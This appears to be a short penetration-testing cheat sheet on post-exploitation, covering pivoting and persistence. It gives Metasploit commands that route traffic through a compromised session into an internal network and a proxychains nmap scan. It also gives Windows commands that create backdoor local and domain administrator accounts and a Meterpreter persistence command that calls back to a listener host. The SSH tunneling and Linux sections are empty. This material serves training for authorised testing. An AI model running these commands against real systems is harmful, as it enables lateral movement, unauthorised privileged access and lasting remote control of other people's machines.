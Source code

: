 # Pivoting

## Metasploit Pivoting

Any traffic we send from Metasploit to the 172.16.85.0 network will automatically be routed through the session 2

```
msf > route add 172.16.85.0 255.255.255.0 2
```

```
scanner/portscan/tcp  
auxiliary/scanner/smb/smb_version
windows/meterpreter/bind_tcp (reverse wont work since networks are different)
```

## ProxyChains

```
msf > use auxiliary/server/socks4a
```
Edit the configuration file for ProxyChains at /etc/proxychains.conf

```
proxychains nmap -Pn -sT -sV -p 445,446 172.16.85.190
```

## SSH tunneling.

# Persistence

## Add user

### Windows
```
net user james password /add
net localgroup Administrators james /add
```

```
net user georgia2 password /add /domain
net group "Domain Admins" georgia2 /add /domain
```
### Linux

##  Meterpreter

```
meterpreter > run persistence -h
meterpreter > run persistence -r 192.168.20.9 -p 2345 -U
```
